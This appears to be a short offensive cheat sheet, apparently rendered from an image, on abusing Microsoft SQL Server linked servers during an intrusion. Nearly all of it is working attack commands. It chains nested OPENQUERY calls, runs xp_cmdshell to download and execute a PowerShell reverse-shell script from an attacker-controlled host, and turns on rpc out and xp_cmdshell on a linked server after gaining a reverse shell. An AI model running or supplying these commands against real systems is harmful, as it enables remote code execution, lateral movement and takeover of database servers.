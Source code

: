 ```powershell

# Openquery queries can be chained to access links within links (nested links)
select * from openquery("192.168.X.Y ",'select * from openquery("db-sqlsrv",''select @@version as version'')')

# From the initial SQL server, OS commands can be executed using nested link queries
select * from openquery("192.168.X.Y",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')

# How to enable rpcout in a linked DB
# First get a rev shell on the parent DB
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT ""db-sqlsrv"""

# Query command to a linked DB
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName" -QueryTarget db-sqlsrv
```
